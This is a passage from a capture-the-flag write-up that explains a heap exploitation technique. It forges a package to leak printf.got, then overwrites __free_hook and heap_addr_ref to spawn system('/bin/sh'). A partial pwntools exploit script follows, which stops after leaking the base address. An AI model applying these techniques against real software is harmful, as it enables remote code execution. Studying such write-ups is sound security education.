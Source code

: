 Since we have arbitrary write and know the base address, we can overwrite `packages[0..3]` to a forged package, whose address is pointing to an address we want to leak e.g. `printf.got`. Running `list_packages` will then leak out the bytes we want.

### Getting command execution

With a libc address and base address known, one would normally overwrite the GOT section to gain command execution, but here it's protected by full RELRO and is not writable.

We can try to overwrite `__free_hook` instead but we are blocked by the `*heap_addr_ref` check. But of course, since we have arb write, we can just overwrite this as well. Our aim will be to get `free` called in `report_lost`, and we provide the index of a package with address set to `/bin/sh` to get `system("/bin/sh")` executed.

## Final Script

The overwriting of `heap_addr_ref` is combined with creation of a forged package, but the rest are as above.

```python
from pwn import *

#p = remote("localhost", "3700")
p = remote("chall.polygl0ts.ch", 3700)

def send_package(address):
    p.sendlineafter("menu is too long", "1")
    p.sendlineafter("address:", address)

def report_lost(idx):
    p.sendlineafter("menu is too long", "2")
    p.sendlineafter("lose?", str(idx))

def list_packages():
    p.sendlineafter("menu is too long", "3")
    pkgs = []
    while True:
        if b"Error" in p.recvuntil(("Error", "Address")):
            p.recvuntil(": ")
            error_state = int(p.recvline()[:-1], 16)
            break
        p.recvuntil(": ")
        address = p.recvuntil("id: ", drop=True)
        id = p.recvline()[:-1]
        p.recvuntil("callback: ")
        cb = p.recvline()[:-1]
        if cb == b'(nil)':
            cb = 0
        else:
            cb = int(cb, 16)
        p.recvuntil("---")
        pkgs.append((address, id, cb))
    return pkgs, error_state

def set_address(idx, address):
    p.sendlineafter("menu is too long", "4")
    p.sendlineafter("edit?", str(idx))
    p.sendafter("address:", address)

send_package(str(0))
pkgs, _ = list_packages()
base = pkgs[0][2] - 0xedc
info(f"{ hex(base) = }")

# just create some packages
```